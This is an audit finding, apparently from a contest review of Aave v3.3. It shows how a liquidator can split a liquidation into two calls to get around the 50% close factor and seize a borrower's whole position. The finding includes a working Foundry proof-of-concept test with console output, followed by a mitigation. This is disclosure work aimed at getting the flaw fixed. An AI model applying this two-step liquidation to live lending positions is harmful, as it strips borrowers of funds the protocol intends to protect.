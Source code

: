 Macho Tartan Finch

Medium

# Liquidation with 100% close factor is still possible even if HF is greater than 0.95 and both collateral and debt worth in base currency higher than MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD

### Summary

100% Liquidation still possible even if HF is greater than 0.95 and both collateral and debt worth in base currency higher than MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD.

### Root Cause

This liquidation is possible when the debt amount in base currency is close to `MIN_BASE...` level. Normally in this situation, liquidator can liquidate up to 50% of the position. But liquidator may intentionally leave the position in unhealthy state such as 0.999 and he can force the close factor to 100% in second liquidation.

This specific level percentage can be calculated with following formula:

```math
PercentageToLeaveUnhealthyWithMaxAmount = (1 - HF ) / ( 1 - LT * Bonus )
```
After liquidation with few less amount of the percentage above, the position will be in unhealthy state and maximum amount of debt is liquidated in order to force the close factor to 100%.

In second liquidation, liquidator can easily liquidate 100% of the position if the debt amount is lesser than `MIN_BASE...` after first liquidation.

[Reference1](https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/libraries/logic/LiquidationLogic.sol#L283C1-L287C8)

### Attack Path

1. Liquidated `X` Amount of debt and leave the position unhealthy.
2. Liquidate 100% of the debt in second liquidation.

### Impact

It breaks the main invariant of the protocol because protocol states that only following positions can be liquidated 100%:

> There are certain mutually inclusive conditions which increases the CLOSE_FACTOR to 100%:
when a users health-factor drops <=0.95 or
if the users total value of the debt position to be liquidated is below MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD
if the users total value of the collateral position to be liquidated is below MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD

In PoC none of the conditions are meet but it's still liquidateable with 100% close factor. Borrower will lose his funds because normally liquidating 50% of the position will put the position in healthy state ( above one for HF ). But instead, borrower will lose all of his funds.

### PoC

Following PoC test will prove the liquidation is possible:

Add this test to Pool.Liquidations.CloseFactor.t.sol file

Command: `forge test --match-test test_liquidate_100_percent_when_supply_gt_threshold_hf_gt_095 -vv`

```solidity
  function test_liquidate_100_percent_when_supply_gt_threshold_hf_gt_095() public {

    address collateralAsset = tokenList.weth;
    address debtAsset = tokenList.usdx;
    uint256 conf = contracts.poolProxy.getConfiguration(collateralAsset).data;
    uint256 lt = (conf & 0x00000000000000000000000000000000000000000000000000000000FFFF0000) >> 16;
    uint256 bonus = (conf & 0x0000000000000000000000000000000000000000000000000000FFFF00000000) >> 32;
    console2.log('LT: %4e',lt);
    console2.log('Bonus: %4e',bonus);
    uint256 borrowPrice = contracts.aaveOracle.getAssetPrice(debtAsset);
    uint256 collatPrice = contracts.aaveOracle.getAssetPrice(collateralAsset);
    
    uint256 borrowAmount = (LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD *
      10 ** IERC20Detailed(debtAsset).decimals() * 150) / ( borrowPrice * 100); // MIN_BASE * 1.5 = 3000 Debt In Base Currency
    uint256 supplyAmount = ((borrowAmount * borrowPrice) / (10 ** IERC20Detailed(debtAsset).decimals()) * 96 * 10_000 / (100 * lt)) 
      * 10 ** IERC20Detailed(collateralAsset).decimals() / collatPrice; // For 0.96 HF
    _supplyToPool(collateralAsset, bob, supplyAmount);

    vm.mockCall(
      address(contracts.aaveOracle),
      abi.encodeWithSelector(IPriceOracleGetter.getAssetPrice.selector, debtAsset),
      abi.encode(0)
    );

    vm.prank(bob);
    contracts.poolProxy.borrow(debtAsset, borrowAmount, 2, 0, bob);
    vm.clearMockedCalls();

    (uint256 realCollatAmount, uint256 realDebtAmount, , , , uint256 hf) = contracts.poolProxy.getUserAccountData(bob);

    // Double Check HF is 0.96
    console2.log('HF: %18e', hf);
    console2.log('Is debt amount bigger than MIN_BASE: ', realDebtAmount > LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD);
    console2.log('Is collateral amount bigger than MIN_BASE: ', realCollatAmount > LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD);
    console2.log('Real Collat in Base: %8e',realCollatAmount);
    console2.log('Real Debt in Base: %8e',realDebtAmount);
    console2.log('MIN_BASE: %8e',LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD);

    // EDGE CASE: liquidate few less amounts from edge point
    uint256 x = (1e18 - hf) * 1e18 / (1e18 - lt * bonus * 1e10) - 1e16; // 1e10 for decimal stabilization
    uint256 debtToCover = borrowAmount * x / 1e18;

    console2.log('First Liquidation...');
    console2.log('Liquidate %18e percentage of debt', x);
    vm.startPrank(liquidator);
    IERC20Detailed(debtAsset).approve(address(contracts.poolProxy), type(uint256).max);
    contracts.poolProxy.liquidationCall(collateralAsset, debtAsset, bob, debtToCover, false);

    (realCollatAmount, realDebtAmount, , , , hf) = contracts.poolProxy.getUserAccountData(bob);
    console2.log('New HF: %18e', hf);
    console2.log('Is debt amount bigger than MIN_BASE: ', realDebtAmount > LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD);
    console2.log('Is collateral amount bigger than MIN_BASE: ', realCollatAmount > LiquidationLogic.MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD);

    // Now Liquidate the rest of it
    console2.log('Second Liquidation For Whole Position...');
    contracts.poolProxy.liquidationCall(collateralAsset, debtAsset, bob, type(uint256).max, false);
    vm.stopPrank();

    (realCollatAmount, realDebtAmount, , , ,) = contracts.poolProxy.getUserAccountData(bob);
    console2.log('Last Debt: %8e', realDebtAmount);
    console2.log('Last Collat: %8e', realCollatAmount);

  }
```

Output:

```console
  LT: 0.86
  Bonus: 1.05
  HF: 0.959999999996666667
  Is debt amount bigger than MIN_BASE:  true
  Is collateral amount bigger than MIN_BASE:  true
  Real Collat in Base: 3348.83720929
  Real Debt in Base: 3000
  MIN_BASE: 2000
  First Liquidation...
  Liquidate 0.402371134054982814 percentage of debt
  New HF: 0.998376919090562581
  Is debt amount bigger than MIN_BASE:  false
  Is collateral amount bigger than MIN_BASE:  true
  Second Liquidation For Whole Position...
  Last Debt: 0
  Last Collat: 198.8372093

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 103.11ms (3.19ms CPU time)

Ran 1 test suite in 111.04ms (103.11ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


### Mitigation

Do not allow the liquidators to leave the position in unhealthy state